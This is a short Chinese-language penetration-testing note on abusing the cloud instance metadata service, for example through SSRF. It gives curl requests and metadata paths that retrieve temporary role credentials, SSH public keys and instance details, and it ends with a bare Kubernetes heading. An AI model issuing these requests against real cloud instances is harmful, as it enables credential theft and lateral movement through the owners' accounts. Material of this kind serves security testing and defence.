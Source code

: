 

## 元数据

元数据服务是一种提供查询运行中的实例内元数据的服务。

通过元数据，攻击者除了可以获得 云服务器 上的一些属性信息之外，有时还可以获得与该实例绑定角色的临时凭证，并通过该临时凭证获得云服务器的控制台权限，进而横向到其他机器。

- 利用场景

  获取目标 云服务器 权限或者目标云服务器 存在 SSRF 漏洞

- 相关请求

  ```shell
  curl http://ip/latest/meta-data
  
  // 获取临时凭证要加最后的/
  curl http://ip/latest/meta-data/ram/security-credentials/     // 如果配置了访问控制角色将会列出
  curl http://ip/latest/meta-data/ram/security-credentials/ecs  // 获取ecs角色的临时凭证
  
  // 其他关键信息
  /latest/meta-data/mac    实例 MAC 地址
  /latest/meta-data/hostname    实例主机名
  /latest/meta-data/ram/info    获取角色名称
  /latest/meta-data/local-ipv4    实例本地 IP
  /latest/meta-data/public-ipv4    实例公网 IP
  /latest/meta-data/instance-id    实例 ID
  /latest/meta-data/public-hostname    接口的公有 DNS (IPv4)
  /latest/meta-data/placement/region    实例的区域
  /latest/meta-data/public-keys/0/openssh-key    公有密钥
  /latest/meta-data/ram/security-credentials/<rolename>    获取角色的临时凭证
  ```

  > 阿里云为RAM访问控制，AWS为iam访问控制，不同厂商的名称不同，元数据的路径也要替换

  

# k8s--Kubernetes

![img](../..\images\attach-b6f0dd6b79f36f939cfb6e8015da5b53cbbf5199.png)
